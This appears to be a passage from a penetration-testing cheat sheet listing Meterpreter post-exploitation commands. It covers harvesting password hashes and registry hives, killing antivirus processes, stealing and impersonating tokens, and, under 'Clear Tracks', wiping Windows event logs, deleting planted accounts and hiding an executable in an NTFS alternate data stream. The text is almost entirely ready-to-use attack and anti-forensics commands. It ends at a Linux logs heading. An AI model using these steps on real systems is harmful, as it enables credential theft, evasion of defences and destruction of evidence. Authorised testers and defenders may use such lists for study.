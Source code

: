         -   **Meterpreter\>**run scraper  //Scaper -- same as winenum Harvests everything you might want from a system including network shares, registry hives, password hashes, etc. All this information is stored in /root/.msf4/logs/scripts/scraper directory

        -   **Meterpreter\>**run checkvm" will check if the remote machine which we have compromised is a virtual machine or is a real machine.

        -   **Meterpreter\>**run Killav: script stops and terminates Av processes and thus clears our path of faster and effective penetration tests. This script however is not an absolute method of escaping antivirus, but can be usefull

        -   **Meterpreter\>**use incognito

            -   list\_tokens -u

            -   list\_tokens -g

            -   impersonate\_token DOMAIN\_NAME\\\\USERNAME

            -   steal\_token PID

            -   drop\_token

            -   rev2self

-   <h2 align="center">Clear Tracks</h2>

    -   **Windows logs**

        -   metasploit

            -   Meterpreter \> clearev (command)

        -   Delete users created if you created a user

            -   net user /del extraaccount 

        -   windows logs can be found in (win32 /winevt/ or search for EVENT VIEWER / windows logs) (windows logs are bounded by an amount of space after that the logs will be overwritten )

            -   application logs: keeps the logs for application errors

            -   security logs :  keeps the logs for login/logout to the system records

            -   The elsave.exe utility is a simple tool for clearing the event log. It\'s command line based  

            -   wevtutil el (list logs)

            -   wevtutil cl

        -   hiding backdoors with steganography and ntfs alternative data stream

            -   type file\_to\_hide \> normal\_file:stream1

            -   ex : type c:\\\\windows\\evil.exe \> file.txt:name.exe

            -   start ./file.txt:name.txt

    -   **Linux logs**

        -   metasploit

            -   Meterpreter \> clearev (command)
